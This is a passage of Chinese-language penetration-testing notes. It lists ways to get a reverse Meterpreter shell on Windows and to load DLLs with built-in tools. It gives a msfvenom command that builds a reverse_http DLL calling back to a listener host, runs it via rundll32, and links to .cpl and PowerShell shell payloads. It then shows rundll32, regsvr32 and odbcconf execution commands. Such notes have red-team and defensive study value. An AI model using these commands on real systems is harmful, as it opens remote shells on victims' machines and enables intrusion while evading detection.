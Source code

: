 参考：

[《Study Notes Weekly No.1(Monitor WMI & ExportsToC++ & Use DiskCleanup bypass UAC))》](https://3gstudent.github.io/3gstudent.github.io/Study-Notes-Weekly-No.1(Monitor-WMI_ExportsToC++_Use-DiskCleanup-bypass-UAC)/)

---

### Tips 28. Windows系统反弹meterpreter的常用方法

#### 方法1：通过rundll32加载dll反弹meterpreter

msf：

```
msfvenom -p windows/meterpreter/reverse_http -f dll LHOST=192.168.174.133 LPORT=8080>./a.dll
```

生成a.dll,然后上传至测试主机

执行`rundll32.exe a.dll,Control_RunDLL`，即可上线

#### 方法2：通过cpl反弹meterpreter

代码见https://raw.githubusercontent.com/3gstudent/test/master/meterpreter_reverse_tcp.cpp

生成dll，重命名为cpl，双击执行

#### 方法3：通过powershell反弹meterpreter

https://raw.githubusercontent.com/3gstudent/Code-Execution-and-Process-Injection/master/2-CodeExecution-Meterpreter.ps1

---

### Tips 29. Windows系统加载dll的方法

#### 方法1：rundll32

```
rundll32 a.dll,EntryPoint
```

#### 方法2：regsvr32

```
regsvr32 a.dll
```

参考：

《Code Execution of Regsvr32.exe》

#### 方法3：odbcconf

```
odbcconf.exe /a {regsvr c:\test\odbcconf.dll}
```
